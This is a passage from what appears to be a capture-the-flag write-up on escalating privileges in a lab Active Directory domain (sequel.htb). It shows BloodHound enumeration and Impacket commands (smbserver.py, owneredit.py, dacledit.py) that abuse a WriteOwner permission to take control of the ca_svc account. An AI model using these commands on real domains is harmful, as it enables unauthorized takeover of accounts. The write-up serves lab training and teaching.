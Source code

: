 ```
python3 smbserver.py <share name> -username <username> -password <password> <directory> -smb2support
```

![Desktop View](/ad-series-2/ss20.png)

![Desktop View](/ad-series-2/ss21.png)

After executing the SharpHound and extracting the zip file from its result, I fired up bloodhound to check for privesc paths. After looking around, this is what I got. So, I was not able to take a screenshot where their original names were showing so I had to improvise. Sorry about that. Anyways As you can see, `ryan` seemed to have the ability to take owenership of `ca_svc`.
![Desktop View](/ad-series-2/ss22.png)

> **WriteOwner** permission allows a user to change the ownership of an object (e.g., a user account, group, or computer)
{:.prompt-warning}

> In this case, `ryan` has `WriteOwner` permissions over `ca_svc`. This means `ryan` can change the owner of the `ca_svc` account to themselves. This will allow `ryan` to modify its permissions and give themselves full control over it, effectively granting themselves the same privileges as `ca_svc`.
{:.prompt-info}

# Privilege Escalation
At this point, that information could be used for a potential privilege escalation attack. So it's time to abuse the `WriteOwner` permission. I used `owneredit.py` from `Impacket` for this. 

```
owneredit.py -action write -new-owner 'attacker' -target 'victim' 'DOMAIN'/'USER':'PASSWORD'
```

![Desktop View](/ad-series-2/ss24.png)

Now the owner has been successfully modified, I can now change permissions. For the next step, I used `dacledit.py`. 

This command modifies the Discretionary Access Control List (DACL) of `ca_svc` in Active Directory on the sequel.htb. This grants `FullControl` to `ryan`.

```
python3 dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' sequel.htb/ryan:<password>
```

| Command Option            | Explanation                                                   |
| :-------------------------| :-------------------------------------------------------------|
| -action 'write'           | Modification of DACL.                                         |
| -rights 'FullControl'     | Grants **Full Control** permissions. Highest level of access. |
| -principal 'ryan'         | The user whol will receive **Full Control**.                  |
| -target 'ca_svc'          | The AD object whose permissions will be modified.             |
| -sequel.htb/ryan:password | Credentials used to authenticate.                             |
